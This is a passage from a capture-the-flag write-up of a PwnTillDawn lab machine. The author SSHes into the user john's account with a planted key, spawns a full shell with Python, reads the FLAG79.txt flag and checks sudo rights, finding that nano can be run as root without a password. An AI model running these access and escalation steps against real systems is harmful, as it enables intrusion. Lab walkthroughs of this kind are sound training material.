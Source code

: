 ```bash
c5R9oPmutnKySSvviFJR/8S2h+mZRdJ4MhkHlLk= kali@kali
sally@ubuntu:~$
```
{: .nolineno}
{: .nolineno}

 

Now lets Login into the John’s SSH shell →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.55]
└─$ sudo ssh -i id_rsa -p 1055 john@10.150.150.55
Silence Please
Last login: Fri Aug  4 20:07:42 2023 from 10.66.67.202
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
john@ubuntu:~$ whoami
john
john@ubuntu:~$ id
uid=1002(john) gid=1002(john) groups=1002(john),1006(netAdmin)
john@ubuntu:~$ ls -al
total 76
drwxr-xr-x 14 john john     4096 Jul  1  2020 .
drwxr-xr-x  8 root www-data 4096 Jun 10  2020 ..
-rw-------  1 john john      808 Aug  4 20:15 .bash_history
-rw-r--r--  1 john john      220 Feb 25  2020 .bash_logout
-rw-r--r--  1 john john     3771 Feb 25  2020 .bashrc
drwx------  4 john john     4096 Jun 11  2020 .cache
drwxr-xr-x  4 john john     4096 Jun 11  2020 .config
drwx------  2 john root     4096 Jun 18  2020 Desktop
drwxr-xr-x  2 john john     4096 Jun 18  2020 Documents
drwxr-xr-x  2 john john     4096 Jun 18  2020 Downloads
-r--------  1 john john       41 Jun 18  2020 FLAG79.txt
drwx------  2 john john     4096 Jul  1  2020 .gnupg
drwxrwxr-x  3 john john     4096 Jun 10  2020 .local
drwxr-xr-x  2 john john     4096 Jun 18  2020 Music
drwxr-xr-x  2 john john     4096 Jun 18  2020 Pictures
-rw-r--r--  1 john john      807 Feb 25  2020 .profile
drwxrwx---  2 john netAdmin 4096 Aug  4 20:06 .ssh
drwxr-xr-x  2 john john     4096 Jun 18  2020 Templates
drwxr-xr-x  2 john john     4096 Jun 18  2020 Videos
john@ubuntu:~$
john@ubuntu:~$ cat FLAG79.txt 
3ca569f9d5bc771b0457c4f4d42d29c4824e8d70
john@ubuntu:~$ sudo -l
Matching Defaults entries for john on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    logfile=/var/log/sudo.log

User john may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/nano
john@ubuntu:~$
```
{: .nolineno}
{: .nolineno}
